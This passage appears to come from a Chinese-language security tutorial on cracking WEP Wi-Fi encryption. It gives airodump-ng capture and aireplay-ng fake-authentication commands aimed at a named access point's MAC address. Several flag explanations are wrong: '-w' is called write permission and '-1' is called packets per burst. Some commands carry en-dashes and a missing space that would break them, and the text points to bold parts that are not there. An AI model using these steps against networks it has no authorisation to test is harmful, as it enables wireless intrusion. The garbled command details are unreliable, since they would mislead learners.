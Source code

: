 1.  输入以下命令并按*Enter*：

```
airodump-ng –c 6 –w capture --bssid 00:13:10:9A:4E:B5 mon0

```

以下是命令的组成部分：

+   `-c`：这是频道

+   `-w`：这给予文件写入权限

+   `--bssid`：这是无线接入点的 MAC 地址

以下是前述命令的输出：

![破解 WEP 加密](img/3183OS_04_09.jpg)

您需要用您的网络信息替换粗体部分。

1.  输入以下命令并按*Enter*：

```
aireplay-ng -1 1000 –q 10 –e linksys–a 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0 –ignore-negative-one

```

以下是命令的组成部分：

+   `-1`：这是每次突发传输的数据包数

+   `-q`：这是保持活动之间的秒数
